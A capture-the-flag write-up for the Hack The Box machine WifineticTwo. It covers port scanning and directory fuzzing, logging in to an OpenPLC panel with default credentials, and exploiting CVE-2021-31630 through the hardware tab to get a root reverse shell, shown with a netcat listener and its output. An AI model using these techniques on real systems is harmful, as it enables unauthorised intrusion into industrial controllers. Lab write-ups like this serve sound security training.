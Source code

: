 ![WifineticTwo](https://github.com/amalcew/htb-writeups/assets/73908014/c22abb67-1d9f-4664-8382-db4c2918cd99)

## Reconnaissance & port scanning

Starting with the enumeration:

```bash
> nmap 10.10.11.7 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 15:13 CEST
Nmap scan report for 10.10.11.7 (10.10.11.7)
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

The target is hosting a website on port 8080, so let's fuzz the directories:

```bash
> ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.7:8080/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.7:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 4550, Words: 1574, Lines: 138, Duration: 143ms]
users                   [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 115ms]
hardware                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 120ms]
programs                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 123ms]
logout                  [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 134ms]
settings                [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 143ms]
dashboard               [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 104ms]
monitoring              [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 74ms]
                        [Status: 302, Size: 219, Words: 22, Lines: 4, Duration: 227ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

The host contain some valuable endpoints, which will prove useful.

The webpage greets us with login prompt:

![01-initial_page](https://github.com/amalcew/htb-writeups/assets/73908014/53fd1654-21c5-431d-ba3c-62f62c273558)

## Initial foothold

### Default credentials

Inspection of the page did not returned any clues, so before starting bruteforcing the credentials it is always important to check the documentation for any default credentials.

![Untitled](https://github.com/amalcew/htb-writeups/assets/73908014/d6db6aec-59a5-4824-9c6e-0d06e5ea21e8)

Apparently, this was sufficient to gain access to the panel:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/e7f2c6b9-77c2-403b-8cd8-54a35f769633)

### Command injection

As box exploration followed, I've discovered that the target might be vulnerable to [CVE-2021-31630](https://nvd.nist.gov/vuln/detail/CVE-2021-31630), which means that it should be possible to gain reverse shell to the target.

There are many POCs and exploits on the internet, but attempts to execute them were unsuccessful. To leverage this vulnerability, the manual exploitation is required:

After logging to the panel, paste the payload inside hardware tab:

![02-hardware](https://github.com/amalcew/htb-writeups/assets/73908014/071d38bf-6fdf-40cf-b040-7b15cf826e3a)

Now the code need to be compiled:

![03-compilation](https://github.com/amalcew/htb-writeups/assets/73908014/797930c8-46b8-4dbb-889d-69a5a35446a4)

To execute the  reverse shell, we need to start the PLC:

![04-start_plc](https://github.com/amalcew/htb-writeups/assets/73908014/4a4d58ff-0245-427f-a6a1-f187cbf75a54)

The remote code execution is achieved:

```bash
> nc -lnvp 1234  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.7] 38300
bash: cannot set terminal process group (171): Inappropriate ioctl for device
bash: no job control in this shell
root@attica02:/opt/PLC/OpenPLC_v3/webserver# whoami
whoami
root
root@attica02:/opt/PLC/OpenPLC_v3/webserver# cat /root/user.txt
cat /root/user.txt
c9ae************************b381
```
